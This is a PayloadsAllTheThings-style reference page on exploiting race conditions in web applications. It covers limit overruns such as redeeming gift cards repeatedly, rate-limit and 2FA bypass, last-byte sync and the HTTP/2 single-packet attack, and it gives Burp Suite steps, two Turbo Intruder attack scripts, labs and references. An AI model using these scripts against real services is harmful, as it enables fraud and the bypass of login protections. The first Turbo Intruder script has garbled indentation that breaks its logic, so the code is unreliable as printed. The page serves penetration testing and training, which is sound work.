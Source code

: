 ```yaml
---
icon: file-lines
layout:
  width: default
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# PayloadAllTheThings - Race Conditions

## Race Condition

> Race conditions may occur when a process is critically or unexpectedly dependent on the sequence or timings of other events. In a web application environment, where multiple requests can be processed at a given time, developers may leave concurrency to be handled by the framework, server, or programming language.

### Summary

* Tools
* Methodology
  * Limit-overrun
  * Rate-limit Bypass
* Techniques
  * HTTP/1.1 Last-byte Synchronization
  * HTTP/2 Single-packet Attack
* Turbo Intruder
  * Example 1
  * Example 2
* Labs
* References

### Tools

* [PortSwigger/turbo-intruder](https://github.com/PortSwigger/turbo-intruder) - a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results.
* [JavanXD/Raceocat](https://github.com/JavanXD/Raceocat) - Make exploiting race conditions in web applications highly efficient and ease-of-use.
* [nxenon/h2spacex](https://github.com/nxenon/h2spacex) - HTTP/2 Single Packet Attack low Level Library / Tool based on Scapy‌ + Exploit Timing Attacks

### Methodology

#### Limit-overrun

Limit-overrun refers to a scenario where multiple threads or processes compete to update or access a shared resource, resulting in the resource exceeding its intended limits.

**Examples**: Overdrawing limit, multiple voting, multiple spending of a giftcard.

* [Race Condition allows to redeem multiple times gift cards which leads to free "money" - @muon4](https://hackerone.com/reports/759247)
* [Race conditions can be used to bypass invitation limit - @franjkovic](https://hackerone.com/reports/115007)
* [Register multiple users using one invitation - @franjkovic](https://hackerone.com/reports/148609)

#### Rate-limit Bypass

Rate-limit bypass occurs when an attacker exploits the lack of proper synchronization in rate-limiting mechanisms to exceed intended request limits. Rate-limiting is designed to control the frequency of actions (e.g., API requests, login attempts), but race conditions can allow attackers to bypass these restrictions.

**Examples**: Bypassing anti-bruteforce mechanism and 2FA.

* [Instagram Password Reset Mechanism Race Condition - Laxman Muthiyah](https://youtu.be/4O9FjTMlHUM)

### Techniques

#### HTTP/1.1 Last-byte Synchronization

Send every requests except the last byte, then "release" each request by sending the last byte.

Execute a last-byte synchronization using Turbo Intruder

```py
engine.queue(request, gate='race1')
engine.queue(request, gate='race1')
engine.openGate('race1')
```

**Examples**:

* [Cracking reCAPTCHA, Turbo Intruder style - James Kettle](https://portswigger.net/research/cracking-recaptcha-turbo-intruder-style)

#### HTTP/2 Single-packet Attack

In HTTP/2 you can send multiple HTTP requests concurrently over a single connection. In the single-packet attack around \~20/30 requests will be sent and they will arrive at the same time on the server. Using a single request remove the network jitter.

* [PortSwigger/turbo-intruder/race-single-packet-attack.py](https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py)
* Burp Suite
  * Send a request to Repeater
  * Duplicate the request 20 times (CTRL+R)
  * Create a new group and add all the requests
  * Send group in parallel (single-packet attack)

**Examples**:

* [CVE-2022-4037 - Discovering a race condition vulnerability in Gitlab with the single-packet attack - James Kettle](https://youtu.be/Y0NVIVucQNE)

### Turbo Intruder

#### Example 1

1. Send request to turbo intruder
2.  Use this python code as a payload of the turbo intruder

    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=30,
                            requestsPerConnection=30,
                            pipeline=False
                            )

    for i in range(30):
        engine.queue(target.req, i)
            engine.queue(target.req, target.baseInput, gate='race1')


        engine.start(timeout=5)
    engine.openGate('race1')

        engine.complete(timeout=60)


    def handleResponse(req, interesting):
        table.add(req)
    ```
3. Now set the external HTTP header x-request: %s - :warning: This is needed by the turbo intruder
4. Click "Attack"

#### Example 2

This following template can use when use have to send race condition of request2 immediately after send a request1 when the window may only be a few milliseconds.

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False
                           )
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    '''

    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30):
        engine.queue(request2, gate='race1')
    engine.openGate('race1')
    engine.complete(timeout=60)
def handleResponse(req, interesting):
    table.add(req)
```

### Labs

* [PortSwigger - Limit overrun race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun)
* [PortSwigger - Multi-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint)
* [PortSwigger - Bypassing rate limits via race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits)
* [PortSwigger - Multi-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint)
* [PortSwigger - Single-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-single-endpoint)
* [PortSwigger - Exploiting time-sensitive vulnerabilities](https://portswigger.net/web-security/race-conditions/lab-race-conditions-exploiting-time-sensitive-vulnerabilities)
* [PortSwigger - Partial construction race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction)

### References

* [Beyond the Limit: Expanding single-packet race condition with a first sequence sync for breaking the 65,535 byte limit - @ryotkak - August 2, 2024](https://flatt.tech/research/posts/beyond-the-limit-expanding-single-packet-race-condition-with-first-sequence-sync/)
* [DEF CON 31 - Smashing the State Machine the True Potential of Web Race Conditions - James Kettle (@albinowax) - September 15, 2023](https://youtu.be/tKJzsaB1ZvI)
* [Exploiting Race Condition Vulnerabilities in Web Applications - Javan Rasokat - October 6, 2022](https://conference.hitb.org/hitbsecconf2022sin/materials/D2%20COMMSEC%20-%20Exploiting%20Race%20Condition%20Vulnerabilities%20in%20Web%20Applications%20-%20Javan%20Rasokat.pdf)
* [New techniques and tools for web race conditions - Emma Stocks - August 10, 2023](https://portswigger.net/blog/new-techniques-and-tools-for-web-race-conditions)
* [Race Condition Bug In Web App: A Use Case - Mandeep Jadon - April 24, 2018](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e)
* [Race conditions on the web - Josip Franjkovic - July 12, 2016](https://www.josipfranjkovic.com/blog/race-conditions-on-web)
* [Smashing the state machine: the true potential of web race conditions - James Kettle (@albinowax) - August 9, 2023](https://portswigger.net/research/smashing-the-state-machine)
* [Turbo Intruder: Embracing the billion-request attack - James Kettle (@albinowax) - January 25, 2019](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack)
